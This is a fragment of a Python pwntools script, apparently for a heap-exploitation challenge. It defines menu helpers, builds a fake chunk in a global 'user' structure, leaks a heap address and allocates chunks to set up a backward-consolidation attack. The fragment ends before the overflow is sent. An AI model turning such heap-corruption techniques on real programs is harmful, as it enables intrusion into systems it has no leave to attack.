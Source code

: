```python=
    return log.info(mess)

def success(mess):
    return log.success(mess)

def error(mess):
    log.error(mess)


def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path, env={"LD_LIBRARY_PATH": libc.path})

def send_name(name):
    io.sendafter(b'Enter your username: ', name)
    
def handle():
    io.recvuntil(b'heap @ ')
    heap = int(io.recvline(), 16)
    io.recvuntil(b'> ')
    success('heap @ ' + hex(heap))
    return heap

index = 0
def malloc(size):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.recvuntil(b'> ')
    index += 1
    return index - 1

def free(index):
    io.send(b'2')
    io.sendafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')    

def edit(index, data):
    io.send(b'3')
    io.sendafter(b'index: ', str(index).encode())
    io.sendafter(b'data: ', data)
    
def target():
    io.send(b'4')
    io.recvuntil(b'> ')

def quit():
    io.send(b'5')
    
name = p64(0) + p64(8) + p64(elf.sym['user']) + p64(elf.sym['user'])

io = start()
send_name(name)
heap = handle()

# Request 2 chunks.
overflow = malloc(0x88)
victim = malloc(0xf8) # Free this chunk later to trigger backward consolidation with the fake chunk.
```